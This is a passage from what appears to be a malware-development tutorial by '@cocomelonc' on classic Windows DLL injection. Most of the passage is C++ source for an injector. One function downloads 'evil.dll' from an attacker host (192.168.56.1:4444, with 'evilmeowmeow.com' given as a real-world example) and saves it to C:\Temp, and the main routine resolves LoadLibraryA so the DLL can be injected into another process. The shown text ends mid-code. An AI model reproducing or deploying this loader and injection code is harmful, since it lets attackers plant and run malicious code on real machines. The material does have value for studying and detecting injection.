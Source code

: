 This function download `evil.dll` from attacker's machine (`192.168.56.1:4444`, but in the real-life scenario it can be looks like `evilmeowmeow.com:80`) and save to file `C:\\Temp\\evil.dll`.   

Then, we run this code in the `main()` function. Full source code of our injector is:   

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", 
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}

// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
```